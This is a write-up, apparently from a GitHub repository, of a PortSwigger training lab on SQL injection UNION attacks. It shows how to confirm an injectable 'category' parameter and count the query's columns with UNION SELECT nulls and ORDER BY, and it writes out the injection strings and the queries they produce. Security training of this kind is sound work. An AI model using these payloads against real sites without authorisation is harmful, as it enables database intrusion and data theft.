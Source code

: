 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)

## Known information

- vulnerable to SQL injection in the product category filter
- UNION based vulnerability
- Goal: Find out correct number of colums in SQL result with a UNION attack

## Query

The query might be something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

### Confirm injectable argument

The category-filtering works based on the URL argument `category`. Confirm that this argument is injectable by creating an error.

The normal argument is e.g. `/filter?category=Accessories`. Start by injecting a single quote `/filter?category=Accessories'`.

--> This result in an Internal Server Error by the application as the SQL query is not invalid. It likely looks like this, having an illegal single quote at the end:

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

Try the good case by injecting something that results in a valid query: `/filter?category=Accessories%27%20or%201=1--`. This results in a query like this, returning all rows and commenting the erronious single quote and anything that might come after:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

It returns the same content as with no filter, this is an indication that whatever would come afterwards and is commented out does not interfere with the result.

### Count colums by UNION SELECT

In a UNION, the result sets need to contain the same number of colums. Injecting `' UNION (select null)--` will produce a server error.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

By increasing the number of 'nulls', the correct column count can be found by injecting `' UNION (select null, null, null)--`. Therefore, this query is valid:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

![success](img/success.png)

### Count columns by ORDER BY

An alternative way would be to count the columns with ORDER BY. Injecting `' ORDER BY 1--` will order the results by the first column of the result. Incrementing the value leads to an internal server error when using `' ORDER BY 4--`. Thus the correct number of colums is 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 4--
```
